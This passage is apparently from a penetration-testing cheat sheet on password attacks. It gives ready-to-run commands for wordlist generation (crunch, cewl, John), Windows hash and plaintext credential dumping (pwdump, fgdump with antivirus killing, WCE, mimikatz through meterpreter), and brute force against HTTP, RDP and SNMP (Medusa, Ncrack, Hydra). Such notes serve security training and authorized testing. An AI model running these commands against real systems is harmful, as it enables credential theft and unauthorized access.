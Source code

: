         -   crunch 6 6 0123456789ABCDEF -o crunch1.txt

        -   crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha

        -   crunch 8 8 -t ,@@^^%%%

    -   Pwdump and Fgdump - Security Accounts Manager (SAM)

        -   pwdump.exe - attempts to extract password hashes

        -   fgdump.exe - attempts to kill local antiviruses before
            attempting to dump the password hashes and
            cached credentials.

    -   Windows Credential Editor (WCE)

        -   allows one to perform several attacks to obtain clear text
            passwords and hashes

        -   wce -w

    -   Mimikatz

        -   extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets  
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):
            `meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords`

    -   Password Profiling

        -   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack

        -   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP  
            `hydra -P password-file.txt -v $ip snmp`

